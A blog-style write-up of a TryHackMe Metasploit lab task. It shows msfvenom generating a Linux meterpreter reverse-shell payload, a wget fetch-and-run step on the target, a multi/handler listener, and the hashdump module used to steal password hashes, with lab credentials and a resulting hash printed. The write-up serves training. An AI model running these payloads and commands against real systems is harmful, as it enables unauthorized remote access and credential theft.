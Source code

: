 ```yaml
---
title: "An Exercise in Metasploit"
excerpt: A short explanation of how to set a meterpreter shell to obtain password hashes of users.
date: 2025-09-19
---
```


This is task 6 in the room *Metasploit: Exploitation* on TryHackMe. The exercise shows nicely why the Metasploit framework is so powerful: essentially we create a payload through a single command and execute it on the target, providing us with a stable shell and root privileges.

We are given login credentials of one user, namely

```console
user: murphy
password: 1q2w3e4r
```

The goal is to get a meterpreter shell running on the target machine so we can dump the password hashes of all users. 

First, we generate a Linux Meterpreter payload on our local (attacker) machine as follows:

```console
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f elf -o meterpreter.elf
```

The individual constituents of the above command:
- `msfvenom`: A command-line utility that is part of the Metasploit Framework. Its main job is to generate and encode payloads.
- `-p`: The "payload" option.
- `linux/x64/meterpreter/reverse_tcp`: The target OS is Linux with 64-bit architecture. The actual payload, `meterpreter`, is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code. It is typically deployed using in-memory DLL injection to reside entirely in memory.
- `reverse_tcp`: The payload will provide us with a reverse shell, i.e. an outbound TCP connection back to the attacker's machine.
- `LHOST`: **L**istening **Host**. The IP address of the attacker's machine where the payload should connect back to.
- `LPORT`: **L**istening **Port**. The port on the attacker's machine that will be listening for the incoming connection. Here, `4444` is just set as an example.
- `-f elf`: Specifies the **f**ormat to be of type `elf`. The .elf format is comparable to the .exe format in Windows.
- `-o meterpreter.elf`: We simply name the **o**utput `meterpreter.elf`.

Next, we make sure that the payload is executable:

```console
chmod +x meterpreter.elf
```

In order to transfer the payload to the target, we use a Python web server, since the user `murphy` might not have sufficiently elevated privileges for our task:

```console
python3 -m http.server 9000
```

After ssh-ing onto the target as user `murphy`, we fetch the payload, save it in `/tmp` and make sure it is executable, as seen in the next command. Notice that in a real-world (malicious/unauthorized) setting, this would have to be executed by means of phishing/social-engineering etc. In this controlled environment it is straightforward.

```console
wget http://<Your_IP>:9000/meterpreter.elf -O /tmp/meterpreter.elf
chmod +x /tmp/meterpreter.elf
/tmp/meterpreter.elf
```

Back on the attacker machine, we establish a listener, similar to a standard netcat-listener:

```console
msfconsole -q                                   # Start Metasploit interface
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <Your_IP>                             # Same IP as in payload
set LPORT 4444                                  # Same port as in payload
exploit
```

Now for the moment of truth. We run the executable on the target machine with the line

```console
./meterpreter.elf
```

If all goes well, this should just keep running in the CLI of the target and we should see the following output in out local attacker CLI, where we just started the listener:

```console
[*] Meterpreter session 1 opened (<Your_IP>:4444 -> <Target_IP>:<Target_Port>)
meterpreter >
```

We now have a stable reverse shell connection. Check privileges with `getuid` or `whoami`. To dump all hashes, we can use the `post/linux/gather/hashdump` module, but we first need to background the current session. Finally, we run the exploit. Thus, we run the following commands:

```console
meterpreter > background        # Send session to background
use post/linux/gather/hashdump  # This was also the hint given by TryHackMe
set SESSION <ID>                # Replace <ID> with your session number
run
```

We find the hash of the other user (not `murphy`) to be `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`.






